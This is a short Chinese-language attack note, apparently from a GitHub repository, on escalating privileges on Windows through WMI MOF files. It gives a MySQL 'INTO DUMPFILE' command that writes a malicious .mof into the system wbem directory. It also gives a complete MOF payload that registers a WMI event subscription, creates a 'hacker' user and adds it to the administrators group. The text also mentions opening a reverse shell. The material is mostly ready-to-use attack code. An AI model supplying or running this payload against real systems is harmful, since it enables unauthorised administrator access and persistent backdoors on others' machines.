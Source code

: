 # MOF提权
核心原理​
Windows 的 ​WMI（Windows Management Instrumentation）​​ 每隔 5 分钟自动执行 %SystemRoot%\System32\wbem\MOF\ 中的 .mof 文件。
攻击者上传恶意 MOF 文件 → 系统定时执行文件中的 VBScript/JScript → 添加管理员用户或反弹 shell

--- 

​上传恶意 MOF 文件
```
SELECT unhex('4D5A...') INTO DUMPFILE 'C:\\Windows\\System32\\wbem\\MOF\\evil.mof';
-- 需要 MySQL 具有系统目录写入权限
```

MOF文件:
```
#pragma namespace("\\\\.\\root\\subscription")
instance of __EventFilter as $EventFilter {
    EventNamespace = "Root\\Cimv2";
    Name  = "HackFilter";
    Query = "SELECT * FROM __InstanceModificationEvent WHERE TargetInstance ISA 'Win32_LocalTime'";
    QueryLanguage = "WQL";
};
instance of ActiveScriptEventConsumer as $Consumer {
    Name = "HackConsumer";
    ScriptingEngine = "VBScript";
    ScriptText = "Set obj = CreateObject(\"WScript.Shell\")\nobj.Run \"net user hacker P@ss123 /add\"\nobj.Run \"net localgroup administrators hacker /add\"";
};
instance of __FilterToConsumerBinding {
    Consumer = $Consumer;
    Filter = $EventFilter;
};
```